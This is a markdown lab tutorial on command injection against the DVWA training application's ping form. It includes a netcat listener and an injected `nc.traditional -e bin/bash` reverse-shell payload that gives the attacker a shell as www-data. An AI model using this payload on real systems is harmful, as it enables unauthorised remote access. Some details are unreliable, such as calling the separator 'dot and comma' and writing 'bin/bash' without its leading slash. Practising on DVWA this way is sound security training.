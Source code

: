 # Command Injection

# Overview
* Considering a website that is used to ping your ip-address/domain name for.eg. below is a website that would ping the entered ip-address/domain.
<img src="./images/01.sample_pinging_website.png"></img>


# Steps to Perform Command Injection
## Step 1: Login to OWASP 
* Login to OWASP and click on Damn Vulnerable Web Applications 
<img src="./images/02.Damn_vulnerable.png"></img>
* You would be re-directed to DVWA's login page. 
* Login to DVWA using **admin as username and password.**<br>
<img src="./images/03.dvwa_login_page.png"></img>
* Type in sample command such as `whoami` after a **dot and comma (.,)** as below <br>
<img src="./images/05.whoami_example.png"></img>

* In the result, you see the outputs of both commands i.e. **ping and whoami.**<br>
<img src="./images/04.command_injection_done.png"></img>

# Exploiting Command Injection
* We can try to make a connection with DVWA's machine to our Kali Linux Machine. This can be done using `netcat`
* `netcat` is used to connect 2 PCs
    * For our Kali linux, we need to set up **listening port,** e.g.12345
        * Type the following command `nc -lvp 12345`
        * -l is listening mode
        * -v is verbose mode
        * -p specifies port number<br>
        <img src="./images/05.listening_port.png"></img>
    *  Listening port would be used to listen to any connection coming to our PC.
 * Typing the following command would allow us to connect to victim's machine:<br>
 ```
 <your-ip-address>;nc.traditional -e bin/bash <ip-address-of-machine-to-which-you-want-to-connect>
 ```
* There would be **no output** once you perform this command line injection.<br><br>
<img src="./images/06.command_injection_02.png"></img>
* Once you submit, **go back to kali linux** and you would see the following output:<br>
<img src="./images/07.command_injection_output.png"></img>
* If you type the **command `whoami`,** you should see `www -data`<br>
<img src="./images/08.whoami.png"></img>



